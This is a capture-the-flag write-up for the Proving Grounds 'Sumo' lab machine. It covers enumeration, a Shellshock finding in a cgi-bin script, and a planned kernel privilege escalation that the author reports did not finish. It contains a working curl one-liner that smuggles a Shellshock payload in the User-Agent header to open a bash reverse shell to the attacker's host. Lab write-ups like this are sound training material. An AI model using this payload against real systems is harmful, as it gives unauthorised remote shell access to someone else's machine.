






# Sumo

Machine: [Sumo](https://portal.offensive-security.com/labs/play)\
Difficulty: Warm up

## Enumeration

What ports are open on the machine?

Running a directory scan on the target, we find that it has cgi-bin. Additionally, running Nikto we discover that the target is vulnerable to shell shock.

Now we know that the test.sh script is vulnerable to shellshock, lets run the below command and spawn a reverse shell. Setting up a netcat listener and running the below command allows us to get the reverse shell.\
<pre>curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.49.57/4444 0>&1' http://192.168.57.87/cgi-bin/test/test.cgi</pre>

## Exploitation

### Flags
Local/User:

Root:
To get root, I ran linpeas on the system and found a vulnerable kernel version that will allow us to escalate my privileges. Downloading the script from exploit db, (script)[https://www.exploit-db.com/exploits/33589], you should be able to run it and get root privileges. However, it was taking a long time for my script to run  so I assumed something was wrong. I followed a couple of tutorials online and the script didn't work either. I understood the vulnerability and the exploit, so I did not pursue further to save time.
